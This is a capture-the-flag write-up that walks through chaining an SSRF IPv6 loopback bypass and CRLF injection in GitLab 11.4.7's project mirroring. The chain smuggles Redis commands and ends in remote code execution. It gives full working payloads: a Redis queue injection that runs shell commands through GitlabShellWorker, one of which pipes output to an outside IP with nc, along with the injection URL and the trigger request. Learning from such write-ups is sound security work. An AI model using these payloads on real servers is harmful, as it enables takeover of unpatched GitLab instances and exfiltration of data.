 
Lets exploit gitlab/gitlab-ce:11.4.7-ce.0 ssrf+crlf from RWCTF (from code audit to rce) 1-day

## SETUP

we were given a [Docker-Componse file](./docker-componse.yml) file  , so set it up

$ docker-compose up -d 
run the command being in docker-compose file direcroty

Visit `http:/0:5080` and you will have gitlab running

## APPROCH

So we need a RCE/File Read so that we can get flag.

There was a previous [RCE](https://gitlab.com/gitlab-org/gitlab-ce/issues/41293) reported to gitlab.

The RCE was done chaining:
* SSRF in webhooks so we can touch intranet(local services) on that network
* CRLF in webhooks causing protocol smuggling allowing us to make calls to redis with a payload causing RCE

## Webhook Functionality 

Webhook is Hook which is called whenever there is certain event.
Example : On PUSH CODE => CALL WEBHOOK TO DO A CICD UPDATE OR JUST MAIL SOMEONE THAT CODE IS PUSHED from USER-X


Now this Webhook is vulnerable to ssrf with crlf => so we can make a request to redis with following payload to push a task in to redis queue which ruby keep checking and perform action as mentioned in queue

PAYLOAD = 
```
A

 multi

 sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec
```

So something like

my.gitlab.com/?webhook[url]=127.0.0.1&webhook[token]=PAYLOAD

this will push our task into system_hook_push which is a task queue gitlab keeps checking the queue for active task

it will take our task which will call `GitlabShellWorker` with arguments `class_eval` and `"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}`

> WHY GitlabShellWorker
THIS IS Code to GitlabShellWorker
```
class GitlabShellWorker
	include ApplicationWorker
	include Gitlab:ShellAdapter

		def perform(action,*arg)
			gitlab_shell.__send__(action,*arg)
		end
	end
```

> `perform` is special method in ruby that checks active tasks in queue and execute them

So this way we end up inserting task to REDIS  and execute it


THIS WAS PREV to PREV version exploit, it was fixed in `gitlab/gitlab-ce:11.4.7-ce.0` .

But know we have to see what bugs where patched in `gitlab/gitlab-ce:11.4.7-ce.0` and if it had SSRF nd CRLF we get RCE and we are done 
So [these](https://about.gitlab.com/2018/11/28/security-release-gitlab-11-dot-5-dot-1-released/) are all patches that were made in this(gitlab/gitlab-ce:11.4.7-ce.0) version and they did fixed 

* SSRF in Webhooks(again? Maybe prev fix bypass)
	* so looking into previous commit we look for something like "ssrf fix" and we do get a commit sayiing [security-11-5-fix-webhook-ssrf-ipv6' into](https://github.com/gitlabhq/gitlabhq/commit/a9f5b22394954be8941566da1cf349bb6a179974#diff-9e66ca5e5564156b96d5a64c76a74c1f)	
	* So it indeed was a IPV6 bypass

* CRLF Injection in Project Mirroring
	* So there is CRLF too but in project mirroing , again looking through prev comit we get the actual fix ['security-fj-crlf-injection' into 'master'](https://github.com/gitlabhq/gitlabhq/commit/c0e5d9afee57745a79c072b0f57fdcbe164312da)

SSRF and CRLF at different parts of the code wont help bcz we need API to be vulnerable to both .

So when we see the code fixed for SSRF, its actually `lib/gitlab/url_blocker.rb` 
so it was a global helper file that was used everywhere(even in project mirroring) to block SSRF

So in short Project mirroring uses same protection defined in `lib/gitlab/url_blocker.rb`  as used by webhooks so SSRF persist also in PRoject mirroring.
Great now we have everything to get RCE
SSRF+CRLF in project mirroring

## EXPLOITING

So lets see how project mirroring works( from https://docs.gitlab.com/ee/workflow/repository_mirroring.html):

```
For an existing project, you can set up push mirroring as follows:

> Navigate to your project’s Settings > Repository and expand the Mirroring repositories section.
> Enter a repository URL.    <== so this is SSRF + CRLF(INJECTION POINT)
Select Push from the Mirror direction dropdown.
Select an authentication method from the Authentication method dropdown, if necessary.
Check the Only mirror protected branches box, if necessary.
Click the Mirror repository button to save the configuration.
```
Basiclly at `(/<namespace>/<projectname>/settings/repository#js-push-remote-settings)`


Finding out what works is as simple as looking at the tests written to check for the bug after the fix was deployed.
```
  it 'returns true for loopback IPs' do
      expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:127.0.0.1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:7f00:1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.2]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:127.0.0.2]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:7f00:2]/foo/foo.git')).to be true
  end
```

Use CRLFs to inject redis commands(Protocol smuggling from HTTP to redis).
Which is as simple as adding \n or \r to our URL(as we can see in test).
```
  shared_context 'invalid urls' do
        let(:urls_with_CRLF) do
          ["http://127.0.0.1:333/pa\rth",
           "http://127.0.0.1:333/pa\nth",
           "http://127.0a.0.1:333/pa\r\nth",
           "http://127.0.0.1:333/path?param=foo\r\nbar",
           "http://127.0.0.1:333/path?param=foo\rbar",
           "http://127.0.0.1:333/path?param=foo\nbar",
           "http://127.0.0.1:333/pa%0dth",
           "http://127.0.0.1:333/pa%0ath",
           "http://127.0a.0.1:333/pa%0d%0th",
           "http://127.0.0.1:333/pa%0D%0Ath",
           "http://127.0.0.1:333/path?param=foo%0Abar",
           "http://127.0.0.1:333/path?param=foo%0Dbar",
           "http://127.0.0.1:333/path?param=foo%0D%0Abar"]
        end
      end
```

So @ injection point payload would be
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/\n\n

multi

sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami > /tmp/a \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"4552c3b1225428b18682c901\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec

exec

```
Putting that in mirror functionality results in a 500 returned from gitlab. This happens due to gitlab trying to render our URL and in failing to do so, refusing to respond with anything meaningful

That’s not helpful given that we still need to trigger the mirror by clicking the little refresh button (or just sending POST to update_now?sync_remote=true)

Doing the latter gives us full RCE.


========

## Little on Protocol Smuggling
So basically if we can inject CR-LF anywhere in request headers we get protocol smuggling

>  Whats protocol smuggling?

Basically making a call in 1 protocol that is understood by another protocol. In this example we made a HTTP call which is understood by redis.

So if there is newline thing(CRLF) anywhere  in header part, redis ignore all error and execute the redis command

```
GET /[EXPLOIT-1] HTTP/1.1     <= can be at URL
Host: 127.0.0.1:6379
Cookie: [EXPLOIT-2]           <= newline at cookie and we get CRLF

data:[EXPLOIT-3] 			  <= or some data we control
```

So if we make a HTTP call to redis, obviously it donot understand HTTP protocol but the fun part is it doesnt give error and if it finds valid redis command it will even execute it.

so [EXPLOIT-n] can be like

```
A\r\n\n
multi
lpush task "Asdf"
exec

A\n\n
```

ACTUAL request
```
GET /A\r\n\n\multi\nlpush\n task "asdf"\nexec\nA\n\n HTTP/1.1
Host: 127.0.0.1:6379
```

will end up inserting the value "Asdf" in variable "task" in redis



#### Reference https://desc0n0cid0.blogspot.com/2019/01/chaining-2-low-impact-bugs-into-gitlab.html

